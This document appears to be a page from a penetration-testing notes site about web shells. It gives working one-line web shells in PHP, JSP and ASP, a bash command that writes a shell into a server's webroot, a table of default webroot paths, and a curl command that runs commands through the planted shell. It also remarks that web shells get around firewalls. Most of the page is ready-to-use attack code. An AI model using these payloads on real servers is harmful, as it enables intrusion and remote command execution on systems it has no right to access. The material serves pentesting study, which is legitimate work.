 ```yaml
---
title: Web Shells
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - webshell
  - reverse-shells
---
```


# Web shells

!!! example "Preconfigured webshells in Kali linux"
    Go to /usr/share/webshells/

??? abstract "Other resources"
    See [reverse shells](reverse-shells.md)

A Web Shell is typically a web script that accepts our command through HTTP request parameters, executes our command, and prints its output back on the web page.

A web shell script is typically a one-liner that is very short and can be memorized easily.


## Some basic web shells

### php

```php
<?php system($_REQUEST["cmd"]); ?>
```

- [Pentesmonkey webshell](pentesmonkey.md).
- [WhiteWinterWolf webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php).

### jsp

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

### asp

```asp
<% eval request("cmd") %>
```


## How to exploit a web shell

### File upload vs Remote code execution

**1.** **FILE UPLOAD: By abusing an upload feature.** We would place this web shell script into the remote host's web directory to execute the script through the web browser.

**2.** **REMOTE CODE EXECUTION: By writting our one-liner shell to the webroot to access it over the web**. This would be if onle have remote command execution as a exploit vector. Here an example for bash:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

So, for the second way of exploitation, it's relevant to identify where the webroot is. The following are the default webroots for common web servers:

| Web Server | Default Webroot |
| ------------ | ----------------- |
| Apache | /var/www/html/ |
| Nginx | /usr/local/nginx/html/ |
| IIS | c:\inetpub\wwwroot\ | 
| XAMPP | C:\xampp\htdocs\ | 

### Accessing the web shell

We can access to the web shell using the browser. Or Curl:

```shell-session
curl http://SERVER_IP:PORT/shell.php?cmd=id
```

A  benefit of a web shell is that it would bypass any firewall restriction in place, as it will not open a new connection on a port but run on the web port on 80 or 443, or whatever port the web application is using. 


## Tools

[About webshells](https://github.com/BlackArch/webshells).

[Laudanum](laudanum.md)

[nishang](nishang.md)
